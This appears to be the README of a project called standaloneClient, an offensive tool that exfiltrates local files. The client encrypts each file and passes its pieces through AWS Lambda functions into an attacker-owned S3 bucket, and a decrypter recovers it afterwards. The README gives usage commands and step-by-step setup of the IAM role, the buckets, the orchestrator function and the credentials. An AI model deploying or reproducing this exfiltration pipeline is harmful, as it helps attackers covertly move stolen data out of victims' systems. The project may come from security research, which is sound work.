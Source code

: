 # standaloneClient
## About
Check out standaloneClient pdf for a general explanation on how the program functions.
## Usage
#### Client
`py clientName.py "Path_to_file"`  
Example:  
`py clientName.py "C:\Users\SomeUser\Desktop\test.txt"`
#### Decrypter
###### Note: If not sure about hostname and filename, check S3 Bucket after exfiltration
`py decrypter.py "Hostname" "Filename"`  
Example after exfiltrating test.txt:  
`py decrypter.py "ID4A0E" "test"`
## Setup

Here we will discuss how to set up a working client for data exfiltration.

###### Note 1: Use python 3.x
###### Note 2: Be careful when using AWS Regions, specially when creating lambda functions and S3 buckets.
###### Note 3: Try to follow the steps in order :)

#### Client Setup
Open `standaloneClient_template.py`.  

Modify first lines with required data. You will need  

- fernet_key (You will need the same key for the decrypter. The key can be generated in a separate script with `Fernet.generate_key()`)
- orchestrator_function_name (Remember it for later)
- aws_access_key_id
- aws_secret_access_key
- region_name

#### IAM Console
Go to AWS IAM console and create a role (Remember the ARN name) with the following permissions:  

- AWSLambdaFullAccess
- AmazonS3FullAccess
- CloudWatchFullAccess

#### S3 Console
We will now create 2 buckets.  
The **exfiltration bucket** in which we will save out exfiltrated files (their partitions).  
The **template bucket** in which we will save the template used for creating the lambda functions required.  
(If the above sounds like gibberish, refer to the explanation on how the exfiltration works)  

Create 2 buckets with default config and remember their names (names must be all lowercase). One will be used for exfiltration and the other one for our templates.  

#### Sample Function Setup
Open `sampleFunction_template.py`.  
Modify first lines with required data. You will need  

- exfiltration_bucket_name

Compress the function (you can use Windows default compressor) and upload it to the template bucket created before. Remember the compressed function name. We should now have a sampleFunction_template.zip inside our template bucket.  

#### Lambda console setup
Create a lambda function called `<Insert orchestrator name>`.  
Give the function the role previously created. This can be done by scrolling down a bit one the function is created.  

Copy and paste the contents of `orchestrator_template.py` into the newly created lambda function.  

Modify first lines with required data. You will need  

- template_bucket_name
- compressed_function_name
- lambda_s3_iam_role (The ARN)

Increase the timeout of this function to 5 minute and memory to 512MB. The timeout will depend on the size of the file you plan on exfiltrating.  

#### Decrypter Setup
Files saved inside our exfiltration bucket are encrypted so... we ned a way to decrypt them. Lets se how to do this.  

Open `sampledecrypter_template.py`  

Modify first lines with required data. You will need  

- fernet_key
- aws_access_key_id
- aws_secret_access_key
- region_name
- exfiltration_bucket_name

